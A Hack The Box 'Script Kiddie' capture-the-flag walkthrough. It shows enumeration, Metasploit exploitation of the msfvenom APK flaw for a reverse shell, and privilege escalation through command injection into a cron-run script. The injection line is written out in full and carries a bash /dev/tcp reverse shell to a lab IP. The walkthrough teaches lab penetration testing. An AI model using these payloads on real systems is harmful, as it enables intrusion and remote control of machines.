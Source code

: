 ```yaml
---
categories: ["ctf"]
tags: ["htb"]
title: "Script Kiddie Writeup"
linkTitle: "Script Kiddie"
date: 2023-03-06
weight: 200
---
```


![image](images/1_script_kiddie.PNG)

**Script Kiddie!**<br>
What is the author (0xdf) implying to us?

A box for script kiddies?<br>
Or is it a box for us to stand out from the script kiddies?<br>
My guess would be the latter…

Keep in mind, the destination (root.txt) is not what’s important, it’s the journey (every line that got us to root.txt) that counts.

With that said, let’s begin!

---

## Enumeration

![image](images/2_nmap_scan.PNG)

Nmap scan reveals `Werkzeug httpd 0.16.1 (Python 3.8.5)` running on port 5000.

---

![image](images/3_visit_site.PNG)

Quite a few options are available to play with… Nmap, Msfvenom, Searchsploit…

---

![image](images/4_werkzeug_metasploit.PNG)

The Werkzeug module available from Metasploit will spawn a Python shell, provided if we had access to a **Werkzeug debug console**. But since we don’t, this exploit is unusable for us.

---

## Exploitation

![image](images/5_venom_metasploit.PNG)

The exploit we are using is `CVE-2020–7384`, one that leverages the mishandling of apk files by Msfvenom to grant us a reverse shell.

We'll start by configuring the necessary parameters in Metasploit.

---

![image](images/6_first_netcat_wait.PNG)

Setting up Netcat listener on port 4444.

---

![image](images/7_upload.PNG)

With the `os` set as Android, `lhost` set as some funny ip, we can proceed to upload the APK.

---

![image](images/8_first_success.PNG)

*Voila!* And we’ve got user access to the machine.

---

## Privilege Escalation

![image](images/9_scanlosersh.PNG)

`/home/pwn/scanlosers.sh`

![image](images/10_hackers.PNG)

`home/kid/logs/hackers`

There’s an interesting script `scanlosers.sh`, within user directory of `pwn`, but we (the `kid` user) unfortunately only have read access to it.

That said, since it takes in input from the `hackers` file, which we is owned by us (`kid`). Thus, `scanlosers.sh` is still accessible by us in some ways.

---

![image](images/11_cron_sus.PNG)

After writing some random stuff into `hackers`, but the file seems to remain empty. It brought up suspicion that a cronjob of `scanlosers.sh` was running, as the last line of `scanlosers.sh` - `echo -n > $log` will clear the `hackers` file.

---

![image](images/12_echo_hello.PNG)

First Shell: echoing `hello` into `hackers`

![image](images/13_cron_gottem.PNG)

Second Shell: running `pspy64`, catches the cronjob of our payload `hello`

To confirm our suspicion, we will use [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64), a command line tool designed for snooping on commands run by other users, cron jobs, etc.

I have downloaded the 64-bit binary version and used `nc` to transfer the binary over to the Script Kiddie machine. (feel free to skip this step or try it out for yourself)

1. Initiate two reverse shells.
2. The first shell runs our test payload `hello`
3. The second shell runs the `pspy64` binary, and was able to catch the details of the cronjob.

Indeed, we are able to confirm a cronjob was running in the background, meaning that `/home/pwn/scanlosers.sh` will be executed for each time `/home/kid/log/hackers` is being altered.

---

![image](images/14_explanation.PNG)

Some explanations, our payload is basically a [Bash TCP Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). Description for each *gate* from `scanlosers.sh` are as following:

1. Remove `tuna` and `salmon`.
2. Sort our payload if it has more than one line, since we don’t, we’re good.
3. Stores our payload into the `ip` variable.

---

![image](images/15_2nd_scanlosers.PNG)

When our payload is parsed and executed, they will be run as:

1. `sh -c “nmap --top-ports 10 -oN recon/;`<br>
   Doesn't do anything since it is an incomplete nmap command, no ip address is supplied.
2. `/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’`<br>
   ***The Bash TCP Shell we need!***
3. `#.nmap ${ip} 2>&1 >/dev/null” &...`<br>
   Using the `#` to comment out everything else

---

![image](images/16_second_shell.PNG)

Setting up Netcat listener on port 8888.

---

![image](images/17_echo_payload.PNG)

***Moment of Truth!***

Writing our payload into `hackers`.

`echo “tuna salmon ;/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’ #” >> hackers`

---

![image](images/18_got_pwn.PNG)

After having logged in as `pwn`, with `sudo -l` we found out that we are able to run `msfconsole` as root without the need of password.

---

![image](images/19_sudo_meta.PNG)

Now let’s run `msfconsole` as sudo.

`sudo /opt/metasploit-framework-6.0.9/msfconsole`

---

![image](images/20_root_flag.PNG)

***Jackpot!***

And there we have it!

## Afterthoughts

Overall, **ScriptKiddie** teaches the basic yet core concepts of the HTB platform:

- Metasploit
- Cronjobs
- Bash scripting
- `sudo -l`

It is one box that should definitely be recommend for the newcomers!